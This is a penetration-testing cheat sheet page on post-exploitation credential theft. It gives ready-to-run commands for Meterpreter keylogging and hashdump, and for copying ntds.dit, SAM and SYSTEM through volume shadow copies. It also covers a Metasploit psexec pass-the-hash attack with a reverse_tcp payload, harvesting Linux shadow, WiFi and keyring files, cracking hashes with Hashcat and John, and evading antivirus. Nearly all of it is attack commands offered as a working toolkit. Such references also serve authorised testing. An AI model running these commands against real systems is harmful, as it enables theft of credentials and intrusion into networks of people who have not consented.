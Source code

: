 ```yaml
---
title: Obtaining and Cracking Passwords
category: Post-Exploitation
order: 6
---
```


> **Windows** 

Metasploit Key logger for passwords | keyscan_start, keyscan_stop, keyscan_dump
PwDump | Pwdump drops files to disk and caught by AV <br> http://www.tarasco.org/security/pwdump_7/
Fgdump | fgdump drops files to disk and caught by AV <br> Source available to evade AV <br> http://foofus.net/goons/fizzgig/fgdump/downloads.htm#previous-version
Other PWDump Versions | http://www.openwall.com/passwords/windows-pwdump
[Windows Credential Editor (WCE)](https://www.ampliasecurity.com/research/windows-credentials-editor/) | wce64.exe -w

**[Mimikatz](https://github.com/gentilkiwi/mimikatz)**
1. Determine architecture (32 vs 64 bit)
2. Determine if you have admin privs 
3. [AV Bypass](http://www.blackhillsinfosec.com/?p=5555)

References:
* [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/Mimikatz/)
* [Golden Ticket] (https://www.christophertruncer.com/golden-ticket-generation/) 
* [Mimikatz to dump passwords](http://blog.opensecurityresearch.com/2012/06/using-mimikatz-to-dump-passwords.html) 
* [Domain Passwords](http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html)

**Metasploit hashdump**

{% highlight bash %}
meterpreter >hashdump (from memory)
meterpreter > run hashdump (hash and syskey from registry)
{% endhighlight %}

**Volume Shadow Copy Service (domain controller)**

{% highlight bash %}
cscript vssown.vbs /status or /start or /create /c
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit ntdsbackup.dit 
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM systembackup.bak
copy \\ ? \GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM sambackup.bak

Analyze with ntds Dump Hash
{% endhighlight %}

Required Tools:
* [vssown vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs)  
* [vssown py](https://github.com/MarkBaggett/MarkBaggett/blob/master/vssown.py)
* [ntds Dump Hash](http://csabarta.com/downloads/ntds_dump_hash.zip)

>**Pass the Hash**

***May require RID 500 account due to patch***
 
Windows credential editor | www.ampliasecurity.com/research
Metasploit psexec| <code> use exploit/windows/smb/psexec <br> set RHOST [victim] <br> set PAYLOAD windows/meterpreter/reverse_tcp <br> 	set SMBUser [admin_name]  <br> set SMBPass [admin_hash] <br> exploit </code> 
Nmap nse smb | tbd

> **Linux**

Users and Passwords:

* /etc/passwd and /etc/shadow

Network or WiFi Passwords:

* /etc/NetworkManager/system-connections

Gnome Keyring:

* ~/.gnome/keyrings

> **Password Cracking Tools**

**GPU**

* MD5 Cracker: http://bvernoux.free.fr/md5/index.php
* oclHashcat  and Hashcat (same project)
* CUDA-multiforcer
* aircrack-ng-CUDA
* pyrit (WPA and WPA w/ CoWPAtty)

**CPU**

* John
* Cain (note: wordlist is located at C:\Program file\Cain\Wordlist\Wordlist.txt)


> **John the Ripper**

Crack Password Bruteforce | <code> john hash.txt </code>
View Cracked Passwords | <code> ./john --show [password file] </code>
Pause a session | CTRL-C
Kill a session | <code> CTRL-C twice quickly </code>
Restore a session | <code> ./john --restore </code>
Current Status | any key
Customize Session based on password policy (e.g., length) | edit john.conf (Linux) and john.ini (windows)
Combine Shadow and passwd | <code> ./unshadow passwd_copy shadow_copy > combined.txt </code>
Password length Customization | <code> MinLen and MaxLen <code>
Rule Set | [Korelogic](http://contest-2010.korelogic.com/rules.html)

***Useful Links***

* [Getting Started](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)

> **Hashcat**

Usage:
{% highlight bash %}

hashcat -a 0 -m 1000 [NTLMHASHES] wordlists/rockyou.txt -r hob064.rule -o cracked.txt

#Finding kind of hash
hashcat --help | grep NTLM

#Linux
#1. Find Hash Type
grep -A 18 ENCRYPT_METHOD /etc/login.defs
or use the /etc/shadow:
$1$: it uses MD5.
$5$: it uses SHA-256.
$6$: it uses SHA-512.
$2a$: it uses blowfish, not supported everywhere.
Otherwise it uses DES.

#2. Prepare hash for hashcat
sudo cat /etc/shadow | grep '\$' | cut -d ':' -f2

#3. Crack (MD5 example)
hashcat64.exe -m 500 hashes.lst 10000.txt -r OneRuleToRuleThemAll.rule -o cracked.txt


#Finding kind of hash
hashcat --help | grep NTLM
{% endhighlight %}

Rule Sets:

* [hob0Rules](https://github.com/praetorian-inc/Hob0Rules)
* [onerule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)

Useful Links:

* [SANS - Breaking Various Hashes](https://pen-testing.sans.org/blog/2017/10/04/how-to-guide-cracking-into-piles-of-files)
* [/etc/shadow](https://null-byte.wonderhowto.com/how-to/hack-like-pro-crack-passwords-part-3-using-hashcat-0156543/)

>**Cain**

Word List location | C:\Program file\Cain\Wordlist\Wordlist.txt
Password Dictionary restarts at last point | Right-Click the dictionary-> select Reset initial file position

> **Password Lists**

Example Hashes | https://hashcat.net/wiki/doku.php?id=example_hashes
Password Lists in Kali | /usr/share/wordlists/
Danielmiessler | https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials
Tailor Password list to policy | <code> > pw-inspector [-i FILE] [-o FILE] [-m MINLEN] [-M MAXLEN] [-c MINSETS] -l -u -n -p –s  <br> > pw-inspector -i /usr/share/wordlists/nmap.lst -o /root/passes.txt -m 6 -M 1 </code>
Combine Word Lists | <code> > cat wordlist.txt <wordlist2.txt....> | sort | uniq > dictionary.txt </code>
Word List from Website | <code> > mkdir /tmp/source <br> > cd /tmp/source <br> > wget -r -l [Page Depth] [target_website] <br> > cd .. <br> grep -h -r """" source | tr '[:space:]' '\n' | sort | uniq >wordlist.lst <br> > grep -v '<' wordlist.lst > newlist.lst </code>
Password Lists | https://downloads.skullsecurity.org/passwords/
Weakpass | https://weakpass.com/wordlist/online
Crackstation | https://crackstation.net/
Hashes.org | https://hashes.org/search.php
Practice Hashes | http://contest-2012.korelogic.com/


> **CISCO Group Password**

From Kali:<br>
<code>cisco-decrypt (GroupPassword)</code>


> **Mimikatz from Memory Image**

<code> vol.py -f system_image.vmem --profile=Win7SP1x64 mimikatz </code>


> **Rainbow Tables**

* http://project-rainbowcrack.com
* http://souceforce.net/projects/ophcrack
* http://lasecwww.epfl.ch/~oechslin/projects/ophcrack



